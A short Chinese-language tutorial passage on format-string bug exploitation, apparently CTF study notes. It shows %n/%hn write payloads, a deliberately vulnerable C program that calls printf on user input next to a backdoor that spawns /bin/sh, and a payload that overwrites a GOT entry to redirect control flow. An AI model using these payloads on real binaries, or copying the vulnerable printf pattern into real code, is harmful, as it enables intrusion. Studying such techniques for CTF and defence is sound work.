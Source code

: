 ```python
payload = p32(tarloc) + b'%' + str(tarval - 4).encode() + b"c%11$n"
```

### 通过任意写去覆盖控制流相关变量

- 劫持 GOT 表
- 劫持其它……
	- libc 里面的 hook
	- 和程序逻辑有关的变量
	- ……

GOT 表的工作原理：第一次调用的时候，先跳 PLT，PLT 再跳 GOT。此时 GOT 内容还不正确，只写了一条跳回去 PLT 的指令。跳回 PLT 后进入的控制流会开始指挥，把正确的函数地址给 GOT。以后到 GOT 的时候就直接跳就好了。

那么，如果我们先行一步，把 GOT 表改了的话……

```cpp
int main(int argc, char* argv[])
{
	char buffer[512] = {0};

	scanf("%s", buffer);
	getchar();
	printf(buffer);

	exit(0);
}

void backdoor(void)
{
	printf("Hi Backdoor!\n");
	system("/bin/sh");
}
```

```python
# 在 tarloc（4 字节长）写一组 tarval。tarloc 是某个要执行的函数的 GOT 表的位置，tarval 是后门函数的位置。
payload = p32(tarloc) + p32(tarloc + 2)
payload += b'%' + str(tarval1 - 8).encode() + b"c%11$hn"
payload += b'%' + str(tarval2 - tarval1 + 0x10000).encode() + b"c%12$hn" # 如果有溢出
```

### 一次 printf 不够？

那就构造程序的无限循环。

- 劫持控制流，重新回到 main。
- 写 __fini_array 对象（这啥？）。
- 改栈上的返回地址。

## 非栈上 FSB 应用

核心：复用栈上的指针。
